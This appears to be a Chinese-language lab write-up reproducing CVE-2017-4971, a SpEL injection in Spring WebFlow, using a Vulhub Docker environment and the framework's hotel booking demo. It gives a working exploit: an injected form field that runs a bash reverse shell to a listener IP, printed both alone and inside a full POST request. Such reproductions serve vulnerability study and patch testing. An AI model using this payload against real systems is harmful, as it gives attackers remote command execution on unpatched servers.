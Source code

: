 # Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![image-20220301141732657](./images/202203011417883.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：

![image-20220301141904282](./images/202203011419530.png)

再点击确认“Confirm”：

![image-20220301141916160](./images/202203011419396.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的POST数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

![image-20220301143832936](./images/202203011438058.png)

成功执行，获得shell：

![image-20220301143749029](./images/202203011437112.png)

